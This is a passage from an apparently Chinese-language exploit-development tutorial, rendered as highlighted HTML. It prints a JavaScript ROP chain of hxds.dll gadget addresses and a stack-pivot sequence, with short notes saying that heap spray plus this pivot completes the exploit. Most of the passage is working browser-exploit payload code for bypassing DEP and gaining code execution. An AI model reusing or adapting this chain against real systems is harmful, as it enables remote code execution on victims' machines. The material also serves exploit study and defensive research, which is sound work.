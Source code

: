 <span class="hljs-string">"<span class="hljs-variable">%u9683</span><span class="hljs-variable">%u51c5</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51c59683</span>     <span class="hljs-comment"># &amp; call esp [hxds.dll]</span>
<span class="hljs-string">"<span class="hljs-variable">%u6fbd</span><span class="hljs-variable">%u51c5</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51c56fbd</span>     <span class="hljs-comment"># POP EAX # RETN [hxds.dll] </span>
<span class="hljs-string">"<span class="hljs-variable">%ufdfe</span><span class="hljs-variable">%ua17f</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0xa17ffdfe</span>     <span class="hljs-comment"># put delta into eax (-&gt; put 0x00000201 into ebx)</span>
<span class="hljs-string">"<span class="hljs-variable">%u1e01</span><span class="hljs-variable">%u51c1</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51C11E01</span>     <span class="hljs-comment"># ADD EAX,5E800403 # RETN [hxds.dll] </span>
<span class="hljs-string">"<span class="hljs-variable">%u92d8</span><span class="hljs-variable">%u51c3</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51C392D8</span>     <span class="hljs-comment"># XCHG EAX,EBX # RETN [hxds.dll]</span>
<span class="hljs-string">"<span class="hljs-variable">%ue67d</span><span class="hljs-variable">%u51bf</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51BFE67D</span>     <span class="hljs-comment"># XOR EAX,EAX # RETN [hxds.dll] </span>
<span class="hljs-string">"<span class="hljs-variable">%u6fbd</span><span class="hljs-variable">%u51c5</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51c56fbd</span>     <span class="hljs-comment"># POP EAX # RETN [hxds.dll] </span>
<span class="hljs-string">"<span class="hljs-variable">%ufc3d</span><span class="hljs-variable">%ua17f</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0xa17ffc3d</span>     <span class="hljs-comment"># put delta into eax (-&gt; put 0x00000040 into edx)</span>
<span class="hljs-string">"<span class="hljs-variable">%u1e01</span><span class="hljs-variable">%u51c1</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51C11E01</span>     <span class="hljs-comment"># ADD EAX,5E800403 # RETN [hxds.dll] </span>
<span class="hljs-string">"<span class="hljs-variable">%u592b</span><span class="hljs-variable">%u51bf</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51BF592B</span>     <span class="hljs-comment"># XCHG EAX,EDX # RETN [hxds.dll] </span>
<span class="hljs-string">"<span class="hljs-variable">%ucf3e</span><span class="hljs-variable">%u51be</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51becf3e</span>     <span class="hljs-comment"># POP ECX # RETN [hxds.dll] </span>
<span class="hljs-string">"<span class="hljs-variable">%ud150</span><span class="hljs-variable">%u51c5</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51c5d150</span>     <span class="hljs-comment"># &amp;Writable location [hxds.dll]</span>
<span class="hljs-string">"<span class="hljs-variable">%uf563</span><span class="hljs-variable">%u51be</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51bef563</span>     <span class="hljs-comment"># POP EDI # RETN [hxds.dll] </span>
<span class="hljs-string">"<span class="hljs-variable">%u7402</span><span class="hljs-variable">%u51c0</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51c07402</span>     <span class="hljs-comment"># RETN (ROP NOP) [hxds.dll]</span>
<span class="hljs-string">"<span class="hljs-variable">%u6fbd</span><span class="hljs-variable">%u51c5</span>"</span> +   <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51c56fbd</span>     <span class="hljs-comment"># POP EAX # RETN [hxds.dll] </span>
<span class="hljs-string">"<span class="hljs-variable">%u9090</span><span class="hljs-variable">%u9090</span>"</span> +   <span class="hljs-regexp">//</span>    <span class="hljs-number">0x90909090</span>     <span class="hljs-comment"># nop</span>
<span class="hljs-string">"<span class="hljs-variable">%ua8dc</span><span class="hljs-variable">%u51bd</span>"</span>;    <span class="hljs-regexp">//</span>   <span class="hljs-number">0x51BDA8DC</span>     <span class="hljs-comment"># PUSHAD # POP ECX # RETN [hxds.dll]</span></code></pre>
<p>有了rop了链以及精准堆喷射,现在只需要stack pivot就OK了 <br>
同样我们使用hxds.dll中的rop构造栈翻转</br></p>
<pre class="prettyprint"><code class=" hljs perl">var stackpivot += <span class="hljs-string">"<span class="hljs-variable">%ub30e</span><span class="hljs-variable">%u51c3</span>"</span>; <span class="hljs-regexp">//</span> <span class="hljs-number">0x51c3b30e</span>  <span class="hljs-comment"># RETN  [hxds.dll] (align esp)</span>
stackpivot += <span class="hljs-string">"<span class="hljs-variable">%u198c</span><span class="hljs-variable">%u51be</span>"</span>; <span class="hljs-regexp">//</span> <span class="hljs-number">0x51be198c</span>  <span class="hljs-comment"># POP EBX # RETN [hxds.dll] </span>
stackpivot += <span class="hljs-string">"<span class="hljs-variable">%u4a41</span><span class="hljs-variable">%u51be</span>"</span>; <span class="hljs-regexp">//</span> <span class="hljs-number">0x51be4a41</span>  <span class="hljs-comment"># XCHG EAX,ESP # RETN  [hxds.dll]</span></code></pre>
<p>第一次执行第三行的XCHG代码使得栈翻转到堆上第一行的位置，执行第二行的时候正好将XCHG POP进ebx中去 避免了第二次翻转</p>
